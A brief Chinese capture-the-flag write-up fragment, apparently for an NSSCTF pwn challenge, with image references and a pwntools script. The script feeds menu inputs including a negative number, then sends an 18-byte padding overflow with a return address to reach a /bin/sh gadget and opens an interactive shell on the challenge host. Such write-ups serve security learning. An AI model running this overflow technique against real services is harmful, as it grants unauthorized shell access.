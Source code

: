 在mygift里找到/bin/sh的地址

![](./images/image-117.png)

写脚本

```
from pwn import *

io = remote('node4.anna.nssctf.cn', 28469)

io.sendline(b'1')
io.sendline(b'1')
io.sendline(b'-100')
io.sendline(b'2')
io.sendline(b'2')
io.sendline(b'1')

target=0x000000000040154C

payload=b'a'*(10+8)+p64(target)

io.sendline(payload)
io.interactive()
```

拿到flag

![](./images/image-118.png)
